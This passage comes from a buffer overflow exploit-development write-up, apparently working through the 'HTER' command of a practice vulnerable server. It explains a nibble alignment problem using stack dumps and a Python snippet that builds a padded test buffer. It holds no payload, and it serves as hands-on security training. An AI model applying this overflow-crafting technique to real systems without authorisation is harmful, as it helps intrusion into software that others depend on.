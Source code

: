 ```bash
010FF5C8   41342312
010FF5CC   41342312
010FF5D0   41342312
010FF5D4   41342312
010FF5D8   41342312
010FF5DC   41342312
```

And this was even more confusing.

As it turns out this is just an alignment issue.

Each character we sent after the `b"HTER "` string gets turned into one nibble (half) of a byte. But the first character we send after this string is not part of a clean four byte (32 bit) stack segment.

Together with the little endian byte order we get that odd looking pattern where you have `[0x11, 0x22, 0x33 0x44]` getting turned into `[0x12, 0x23, 0x34, 0x41]` (big endian representation) or `[0x41, 0x34, 0x23, 0x12]` (little endian representation). The entire 4 byte pattern is shifted by that one nibble `0x1` at the start.

We can correct for this by adding one arbitrary character in the hex range after the `b"HTER "`.

```python
size = 1024
buf = b""
buf += b"HTER "
buf += b"f" # arbitrary hex character for alignment
buf += (b"11223344" + b"aabbccdd") * size # test string
```

Now the result looks as you would expect:

```bash
00FDF5C4   00000103
00FDF5C8   44332211
00FDF5CC   DDCCBBAA
00FDF5D0   44332211
00FDF5D4   DDCCBBAA
00FDF5D8   44332211
00FDF5DC   DDCCBBAA
00FDF5E0   44332211
00FDF5E4   DDCCBBAA
```
